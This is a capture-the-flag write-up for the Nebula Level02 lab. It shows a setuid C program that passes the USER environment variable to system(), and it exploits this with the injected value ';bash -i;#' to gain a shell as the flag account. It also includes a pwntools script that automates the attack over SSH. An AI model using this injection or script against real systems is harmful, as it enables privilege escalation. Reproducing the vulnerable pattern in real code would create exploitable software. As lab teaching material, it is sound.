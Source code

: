 # Level02

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>
> To do this level, log in as the **level02** account with the password **level02**. Files for this level can be found in /home/flag02.

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

***

#### Solution

Looking at the source code above it is reading gid and uid of the running process and sets the real, effective, and saved GID/UID to those effective values. In short: it makes all three IDs identical to the current effective IDs. Next it is fetching the `USER` environment variable (Which we can control). After that it calls the shell to run the command. In this example it will run `/bin/echo <USER> is cool`, so the program prints something like `hacker is cool` .

As it is fetching and running USER environment variable, what if USER contains something vulnerable, maybe reverse shell or something like this `USER=';bash -i;#'` .

```bash
level02@nebula:/home/flag02$ export USER=';bash -i;#'
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ;bash -i;# is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level02', password='level02')

# start a remote shell
terminal = session.shell()

# Changing USER environment variable
terminal.sendline("export USER=';bash -i;#'")

# Executing target binary
terminal.sendline('/home/flag02/flag02')
terminal.sendline("getflag")

terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

***
